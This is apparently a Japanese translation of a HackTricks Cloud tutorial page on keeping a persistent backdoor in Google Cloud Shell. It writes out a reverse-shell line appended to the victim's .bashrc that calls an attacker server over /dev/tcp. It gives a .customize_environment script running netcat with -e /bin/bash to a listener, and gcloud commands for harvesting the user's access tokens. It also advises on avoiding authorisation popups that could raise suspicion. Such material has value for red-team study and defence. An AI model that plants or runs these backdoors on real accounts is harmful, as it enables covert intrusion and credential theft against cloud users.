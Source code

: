 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

詳細については、次を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) は、関連するコストなしにブラウザから直接クラウドリソースへのコマンドラインアクセスを提供します。

**ウェブコンソール**からまたは**`gcloud cloud-shell ssh`**を実行することでGoogleのCloud Shellにアクセスできます。

このコンソールには攻撃者にとって興味深い機能があります：

1. **Google Cloudにアクセスできる任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織のオーナーであってもアクセス可能です）。
2. そのインスタンスは、**活動がない場合、少なくとも120日間はホームディレクトリを維持します**。
3. そのインスタンスの活動を**組織が監視する能力はありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置でき、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は実行するたびにシェルを取得できることを意味します：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合はユーザーが **cloud shell** にアクセスするたびに **実行されます**（前の技術と同様に）。前のバックドアや、以下のようなものを挿入して、ユーザーが「頻繁に」cloud shell を使用している限り、持続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要な点は、**認証を必要とするアクションが初めて実行されるとき**、ユーザーのブラウザにポップアップ認証ウィンドウが表示されることです。このウィンドウは、コマンドを実行する前に受け入れられなければなりません。予期しないポップアップが表示されると、疑念を引き起こし、使用している永続性メソッドが危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェルから `gcloud projects list` を実行したときのポップアップ（攻撃者として）で、ブラウザのユーザーセッションで表示されます：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーがクラウドシェルを積極的に使用している場合、ポップアップは表示されず、**ユーザーのトークンを収集することができます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、これらの3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPを教えてくれます)

さらに詳しい情報は、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
